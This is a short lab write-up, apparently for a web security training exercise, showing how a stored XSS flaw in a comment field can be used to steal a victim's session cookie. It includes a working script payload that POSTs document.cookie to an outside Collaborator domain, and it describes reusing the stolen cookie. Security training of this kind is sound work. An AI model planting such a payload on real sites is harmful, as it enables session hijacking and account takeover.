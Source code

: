 ### Exploiting cross-site scripting to steal cookies : PRACTITIONER

---

The idea is to use the Burp Suite Collaborator server to host a domain that can receive requests that contain the victim user cookie.
- We want to upload a script that once visited by a user, takes the cookies of that user and sends it to our domain.

First, head to Collaborator and press on copy to clipboard to obtain the domain.
```
ydfa57m120i4eumqf8396fs67xdo1hp6.oastify.com
```

There is a stored XSS vulnerability in the comments, so going there and uploading the following payload:
```
<script>
fetch('https://ydfa57m120i4eumqf8396fs67xdo1hp6.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

After submitting the comment with this as the body, go to collaborator.

![](./screenshots/26-1.png)

We see the `session` cookie is returned.

> Replacing our session cookie with the one returned completes the lab.

---
